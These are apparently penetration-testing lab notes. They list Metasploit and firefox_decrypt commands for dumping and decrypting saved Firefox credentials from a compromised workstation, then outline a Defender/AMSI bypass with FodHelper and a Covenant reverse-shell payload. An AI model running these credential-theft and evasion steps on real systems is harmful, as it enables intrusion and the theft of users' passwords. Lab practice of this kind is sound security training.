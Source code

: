 
### Dumping Firefox Credentials
workstation-01 - first open firefox and save a credential of any site

#### Metasploit
background your session

search firefox:
```bash
use post/multi/gather/firefox_creds
set session
exploit -j
```

> it will save the firefox credentials dump in /root/.msf4/loot/

We need to rename the dump files:
```bash
cert > cert9.db
key4 > key4.db
logi > logins.json
cook > cookies.sqlite

sign > signons.sqlite # optional
```

```
/opt/ git clone https://github.com/unode/firefox_decrypt
./firefox_decrypt.py /root/.msf4/loot/
# it will dump all the credentials saved in FIrefox
```

To check if firefox is in the machine and u may wanna try this exploit

in meterpreter session:
```bash
run post/windows/gather/enum_applications
```



## Bypassing Defender with FodHelper
```
- Go to workstation-01
- Enable all protection except Automatic sample Submission
```

Disable AMSI and Gain reverse shell:
```
AMSI = anti malware scanning interface from windows
```

> we are gonna use FodHelper to break it.

Covenant:
```
- make sure ip address is correct and you paste the revshell payload from covenant
- We need to host a file (in this case banana.txt) in covenant
```
